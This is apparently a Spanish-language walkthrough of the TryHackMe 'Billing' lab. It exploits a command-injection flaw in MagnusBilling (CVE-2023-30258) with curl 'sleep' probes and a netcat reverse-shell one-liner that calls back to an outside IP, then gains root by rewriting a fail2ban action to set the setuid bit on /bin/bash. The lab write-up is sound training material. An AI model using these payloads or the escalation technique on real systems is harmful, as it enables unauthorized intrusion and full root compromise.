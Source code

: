 ```yaml
---
title: Billing - TryHackMe
layout: post
permalink: /writeups/THM/Billing
date: 2025-04-21 11:00:00 -0000
description: >
  Write up en español para Billing - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.20.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 23:38 CAT
Nmap scan report for 10.10.20.37
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
| http-title:             MagnusBilling
|_Requested resource was http://10.10.20.37/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

## Servicio MagnusBilling

Dentro del directorio `/mbilling/` podemos encontrar un fichero llamado `README.md` que nos indica la verison de la aplicación.

![alt text](/assets/img/writeups/tryhackme/billing/image.png)

Si buscamos vulnerabilidades en la aplicación podemos encontrar [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258). 
Esta vulnerabilidad nos permite ejecutar comandos mediante peticiones HTTP sin autenticación.

Según este [PoC](https://eldstal.se/advisories/230327-magnusbilling.html) haremos la siguiente petición.

Al revisar el [código vulnerable](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) mencionado en el advisory, se aprecia que si se proporciona el parámetro GET `democ` (y su longitud supera los 5 caracteres) en una petición al endpoint `/lib/icepay/icepay.php`, se construye un comando así:

```php
"touch " . $_GET['democ'] . '.txt'
```

Esta cadena se pasa luego a la función `exec()`, lo que hace que el código sea vulnerable a inyección de comandos.

![alt text](/assets/img/writeups/tryhackme/billing/magnusbilling_vulnerable_code.webp)

Al probar el PoC del advisory con comandos `sleep`, se confirma la vulnerabilidad, pues el servidor tarda sistemáticamente más del tiempo especificado en nuestras órdenes `sleep`, lo que indica que se están ejecutando.

```bash
time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'  0.01s user 0.00s system 0% cpu 5.118 total

time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'  0.00s user 0.00s system 0% cpu 3.118 total

```

Sabiendo que podemos ejecutar comandos podemos obtener una reverse shell.

```plaintext
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f;'
```

Y la codificamos en URL.

![alt text](/assets/img/writeups/tryhackme/billing/image-1.png)

## Shell con asterisk

![alt text](/assets/img/writeups/tryhackme/billing/image-2.png)

### User flag

![alt text](/assets/img/writeups/tryhackme/billing/image-3.png)

## Escalado de privilegios

Ejecutamos 

```bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Al verificar los privilegios de sudo del usuario asterisk, encontramos que dicho usuario tiene permitido ejecutar el comando fail2ban-client como root sin necesidad de contraseña.


**fail2ban-client** es una interfaz de línea de comandos que nos permite interactuar, configurar y controlar el **fail2ban-server**. A modo de resumen, fail2ban es una herramienta de seguridad que monitorea archivos de log en busca de actividades sospechosas (como múltiples intentos fallidos de inicio de sesión) y bloquea las IP ofensivas modificando reglas del firewall.

Verificando el estado del fail2ban-server, observamos que hay 8 jails activos:

![alt text](/assets/img/writeups/tryhackme/billing/image-4.png)

Los jails son básicamente configuraciones que definen qué logs monitorear, los patrones a buscar y qué acciones tomar cuando se detectan esos patrones.

Al revisar el archivo /etc/fail2ban/jail.local, vemos un ejemplo de jail.

![alt text](/assets/img/writeups/tryhackme/billing/image-5.png)

Esta configuración indica, entre otras cosas, que el jail **asterisk-iptables** monitorea el archivo `/var/log/asterisk/messages` y busca patrones definidos en el filtro asterisk (/etc/fail2ban/filter.d/asterisk.conf). Cuando se detectan coincidencias, ejecuta la acción definida en **iptables-allports** (/etc/fail2ban/action.d/iptables-allports.conf).

Para usar fail2ban para ejecutar comandos como **root**, podemos modificar una de las acciones definidas para un jail, como la acción que se realiza al banear una IP (actionban).

Primero, consultamos las acciones activas del jail **asterisk-iptables** y luego, modificamos la acción actionban de **iptables-allports-ASTERISK** para ejecutar un comando arbitrario, en este caso, establecer el bit setuid en **/bin/bash**.

![alt text](/assets/img/writeups/tryhackme/billing/image-6.png)

Ahora, al banear manualmente una IP en el jail **asterisk-iptables**, se ejecutará el comando `chmod +s /bin/bash` como root.

Finalmente, con el bit setuid activado en /bin/bash, podemos usarlo para obtener una shell con privilegios de root

![alt text](/assets/img/writeups/tryhackme/billing/image-7.png)